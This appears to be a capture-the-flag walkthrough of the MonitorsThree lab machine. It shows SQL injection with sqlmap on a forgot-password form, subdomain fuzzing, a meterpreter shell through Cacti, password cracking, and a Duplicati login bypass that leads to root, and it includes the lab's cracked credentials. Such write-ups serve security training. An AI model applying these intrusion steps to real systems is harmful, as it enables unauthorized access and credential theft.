Shell as www-data
We have port 22 and 80 open
Webpage
Forgot password page, if we enter something random we get unable to process. If we enter admin we get success. SO we have username enumeration


This page also has a sql injection vulnerability. We can confirm this by entering a single ' and we get a sql error(I cant get the error to come up again but it was there the first time I tried it)

Copy the request to a file and send it to sql map
POST /forgot_password.php HTTP/1.1
Host: monitorsthree.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://monitorsthree.htb
Connection: keep-alive
Referer: http://monitorsthree.htb/forgot_password.php
Cookie: PHPSESSID=cont06q4tpjc9u1f3phjq7oata
Upgrade-Insecure-Requests: 1
Priority: u=0, i
username=*
sqlmap -r req.txt --batch --dump -T users
The hash is a little broken as I stopped and restarted it half way through.

Full hash - 31a181c8372e3afc59dab863430610e8

Admin:greencacti2001
I missed a subdomain at the start because we had to use autofiltering or filter by something other than size as this domain shows up with 0 size.
ffuf -u http://10.10.11.30 -H "Host:FUZZ.monitorsthree.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

On this page we can login, also note the version at the bottom 1.2.26

Shell using meterpreter

Shell as Marcus
After running linpeas we see the database username and pass
$database_username = 'cactiuser';
$database_password = 'cactiuser';
We can get the hash for marcus and crack it


Then we switch user to marcus and get user flag

marcus:12345678910
We can also grab the id_rsa key for marcus so we have ssh access.
Root
This docker compose file shows something running on port 8200, we can forward it to our machine
ssh -L 8200:localhost:8200 marcus@10.10.11.30 -i id_rsa

We have a Duplicati login page

We have a login bypass for Duplicati, this article walks us through it.
First we need to recover the server-passphrase for duplicati which we find here

Copy the database files locally
sqlite3 Duplicati-server.sqlite

-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
Next step is to base64 decode the passphrase and turn it into hex which we can do with cyberchef

hex - 59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
Next we need to get the nonce so we will login and capture the request then we need to select “Do intercept response to this request”

The response will have the nonce that we need

Then following the guide again we can get teh nonced pwd with the javascript code below

With the password we forward the burp request one more time and it will prompt us for a password, we change the password to the noncedpwd output above and urlencode it. Then once we forward it for the last time we will get a login

And we are presented with the duplicati landing page

Exploit duplicati to get root flag
Add new backup > Configure a new backup
No encrpytion and give it any name

Select a destination and we need to make sure we select the folder under “source” in order for it to show up on the machine(took me a while to realize there are multiple folders and the source folders are on the actual machine itself)

Then select the source data

When we run the first time we will get an error and have to repair it

After we click repair and run again we will get the flag

